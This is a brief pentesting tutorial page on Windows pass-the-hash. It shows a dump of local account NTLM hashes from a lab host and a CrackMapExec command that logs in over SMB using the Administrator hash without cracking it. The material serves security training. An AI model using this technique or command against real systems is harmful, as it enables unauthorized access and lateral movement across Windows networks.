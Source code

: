 +++
title = "Pass-the-hash"
weight = 2
+++

### A totally acurate diagram of Windows authentication
![](./windowsauth.png)

## 1. Passing NTLM hashes with Crackmapexec
Consider the following hashes obtainee from **192.168.0.130**
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fa4621870bd7787de99541e0699e738c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2620172f5a22c57e5c7a5450e21313b8:::
```

Here we can see four local user accounts with the following information sepreated by *:*

*  **Username:** - Administrator
*  **User ID:** - 500
*  **LM (Lan Manager) Hash:** - aad3b435b51404eeaad3b435b51404ee
*  **NTLM (New Technology LM) Hash:** - fa4621870bd7787de99541e0699e738c

After you see a few hundred of these you start to recognize automatically that the LM hash is the equivlant of 
a blank password because this system doesn't store/support user's LM hashes (*duh it's 2023 lol*)

The only thing we need to authenticate to this system with Crackmapexec is the username and the NTLM hash.
`cme smb hosts/windows.txt --local-auth -u administrator -H fa4621870bd7787de99541e0699e738c`

![](./passhash1.png)

